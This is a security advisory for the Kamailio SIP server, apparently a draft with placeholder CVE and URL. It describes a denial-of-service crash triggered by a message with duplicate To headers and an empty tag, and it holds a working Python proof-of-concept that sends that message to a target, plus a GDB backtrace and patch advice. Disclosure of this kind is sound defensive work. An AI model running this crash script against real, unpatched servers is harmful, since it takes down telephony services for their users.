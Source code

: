 ## Security vulnerability in Kamailio core related to To header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-05-07
    - Kamailio patch: 2018-05-07
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-07-30

### Description

There exists a security vulnerability in the Kamailio core related to To header processing. A specially crafted SIP message with double `To` header and an empty To `tag` causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `build_res_buf_from_sip_req` core function.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with double `To` headers containing the empty `tag` can be used to reproduce the vulnerability:


```
REGISTER sip:127.0.0.1:0 SIP/2.0
Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe
To: <@127.0.0.1>;tag=
From: 
To: <sip:>
Content-Length: 1

```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:127.0.0.1:0 SIP/2.0\n" \
        "Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe\n" \
        "To: <@127.0.0.1>;tag=\n" \
        "From: \n" \
        "To: <sip:>\n" \
        "Content-Length: 1\n" \
        "\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program terminated with signal SIGSEGV, Segmentation fault.
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
152     ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S: No such file or directory.
(gdb) bt
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
#1  0x000000000057ac26 in build_res_buf_from_sip_req (code=400, text=0x7ffc94ef0780, new_tag=0x7fe8e82ee250 <sl_tag>, msg=0x7fe8e923ca00, returned_len=0x7ffc94ef07e8, bmark=0x7ffc94ef0790) at core/msg_translator.c:2502
#2  0x00007fe8e80de2ee in sl_reply_helper (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match", tag=0x0) at sl_funcs.c:168
#3  0x00007fe8e80df4c3 in sl_send_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sl_funcs.c:304
#4  0x00007fe8e6a6d34f in sanity_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sanity.c:55
#5  0x00007fe8e6a727b5 in check_cl (_msg=0x7fe8e923ca00) at sanity.c:557
#6  0x00007fe8e6a7c97a in sanity_check (_msg=0x7fe8e923ca00, msg_checks=1511, uri_checks=7) at sanity_mod.c:194
#7  0x00007fe8e6a7cb0a in w_sanity_check (_msg=0x7fe8e923ca00, _number=0x5e7 <error: Cannot access memory at address 0x5e7>, _arg=0x7 <error: Cannot access memory at address 0x7>) at sanity_mod.c:254
#8  0x0000000000439780 in do_action (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1079
#9  0x0000000000445e1d in run_actions (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1565
#10 0x00000000004464fa in run_actions_safe (h=0x7ffc94ef2480, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1633
#11 0x0000000000646d88 in rval_get_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, i=0x7ffc94ef15e8, rv=0x7fe8e9211598, cache=0x0) at core/rvalue.c:912
#12 0x000000000064b31f in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef15e8, rve=0x7fe8e9211590) at core/rvalue.c:1910
#13 0x000000000064b75d in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef1a90, rve=0x7fe8e9210d78) at core/rvalue.c:1918
#14 0x0000000000439145 in do_action (h=0x7ffc94ef2480, a=0x7fe8e92121a0, msg=0x7fe8e923ca00) at core/action.c:1043
#15 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e920cda8, msg=0x7fe8e923ca00) at core/action.c:1565
#16 0x00000000004360c5 in do_action (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:691
#17 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:1565
#18 0x00000000004465c2 in run_top_route (a=0x7fe8e91fb420, msg=0x7fe8e923ca00, c=0x0) at core/action.c:1654
#19 0x0000000000587d61 in receive_msg (buf=0xa525e0 <buf> "REGISTER sip:127.0.0.1:0 SIP/2.0\nVia: SIP/2.0/UDP 172\035\061\067.13.240:5061;rport;branch=\223\071hG4bKydcnjlpe\nMax-Forwards: 69\nTo: <@127.0.0.1>;tag=;branch=z9hG4bKya-tag\nFrom: <sip:user@127.0.0.Forwards: 70\nTo: <"..., len=417, rcv_info=0x7ffc94ef2aa0) at core/receive.c:331
#20 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#21 0x00000000004253d1 in main_loop () at main.c:1432
#22 0x000000000042d631 in main (argc=16, argv=0x7ffc94ef2fc8) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/) and an internal toolset.

### Solutions and recommendations

Apply the [patch](https://github.com/kamailio/kamailio/commit/281a6c6b6eaaf30058b603325e8ded20b99e1456) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). At the moment no workarounds (e.g. in the configuration) are known.

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio in the performance, reliability and security areas.

### Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
